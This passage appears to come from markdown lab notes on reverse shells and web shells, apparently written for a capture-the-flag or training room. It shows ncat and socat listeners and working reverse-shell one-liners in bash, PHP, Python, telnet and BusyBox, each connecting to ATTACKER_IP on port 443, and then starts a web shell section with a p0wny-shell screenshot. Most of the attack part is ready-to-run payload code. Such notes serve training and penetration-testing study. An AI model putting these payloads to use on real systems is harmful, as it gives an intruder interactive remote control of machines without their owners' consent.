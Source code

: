 ### 🧰 Ncat (SSL support)
```bash
ncat --ssl -lvnp 443
```

### 🧰 Socat (Advanced socket control)
```bash
socat -d -d TCP-LISTEN:443 STDOUT
```

---

## 💥 Task 6 - Shell Payloads

### 🐚 Bash Reverse Shells:
```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

### 📜 PHP Reverse Shells:
```bash
php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'
```

### 🐍 Python Reverse Shells:
```bash
python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

### 🧪 Other Shell Types:
| Language | Command |
|----------|---------|
| Telnet   | `telnet ATTACKER_IP 443` |
| BusyBox  | `busybox nc ATTACKER_IP 443 -e sh` |
| AWK      | TCP socket loop execution via awk |
| File Descriptors | `/dev/tcp/` access via descriptors 196, 5, etc. |

---

## 🌍 Task 7 - Web Shells


### 🖼️ Web Shell Interfaces (Examples)

Below are screenshots of common PHP web shells in action:

#### 🐚 p0wny-shell
![p0wny-shell Screenshot](https://github.com/user-attachments/assets/5286219f-85be-4dce-aa28-cdb43a0e92d8)
